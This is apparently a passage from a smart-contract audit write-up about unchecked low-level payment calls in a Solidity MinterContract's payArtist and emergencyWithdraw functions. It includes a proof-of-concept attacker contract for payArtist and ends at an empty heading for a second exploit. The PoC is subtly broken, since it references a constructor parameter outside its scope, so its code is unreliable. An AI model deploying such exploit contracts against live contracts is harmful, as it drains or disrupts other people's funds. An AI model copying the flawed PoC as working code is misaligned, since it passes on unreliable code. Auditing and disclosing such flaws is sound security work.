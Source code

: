 ```sol
        artistRoyalties3 = royalties * collectionArtistPrimaryAddresses[colId].add3Percentage / 100;
        teamRoyalties1 = royalties * _teamperc1 / 100;
        teamRoyalties2 = royalties * _teamperc2 / 100;
        (bool success1, ) = payable(collectionArtistPrimaryAddresses[colId].primaryAdd1).call{value: artistRoyalties1}("");
        (bool success2, ) = payable(collectionArtistPrimaryAddresses[colId].primaryAdd2).call{value: artistRoyalties2}("");
        (bool success3, ) = payable(collectionArtistPrimaryAddresses[colId].primaryAdd3).call{value: artistRoyalties3}("");
        (bool success4, ) = payable(tm1).call{value: teamRoyalties1}("");
        (bool success5, ) = payable(tm2).call{value: teamRoyalties2}("");
        emit PayArtist(collectionArtistPrimaryAddresses[colId].primaryAdd1, success1, artistRoyalties1);
        emit PayArtist(collectionArtistPrimaryAddresses[colId].primaryAdd2, success2, artistRoyalties2);
        emit PayArtist(collectionArtistPrimaryAddresses[colId].primaryAdd3, success3, artistRoyalties3);
        emit PayTeam(tm1, success4, teamRoyalties1);
        emit PayTeam(tm2, success5, teamRoyalties2);
    }
```
**Exploit payArtist function with low level call**
```sol
// SPDX-License-Identifier: MIT

pragma solidity >=0.8.19;

import "./MinterContract.sol";

contract tMinterContract {

   MinterContract public x1;

   address me = address(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4);

   constructor(MinterContract _x1) {

      x1 = MinterContract(_x1);

   }
   
   function testlowCalE() public payable {

      x1.payArtist{value: 2 ether}(uint256(4), address(_x1), address(me), uint256(10), uint256(20));

   }

   receive() external payable {}

   }
```
**Vulnerable emergencyWithdraw function**
```sol
// Ln 461-466
    function emergencyWithdraw() public FunctionAdminRequired(this.emergencyWithdraw.selector) {
        uint balance = address(this).balance;
        address admin = adminsContract.owner();
        (bool success, ) = payable(admin).call{value: balance}("");
        emit Withdraw(msg.sender, success, balance);
    }
```
**Exploit emergencyWithdraw function with low level call**
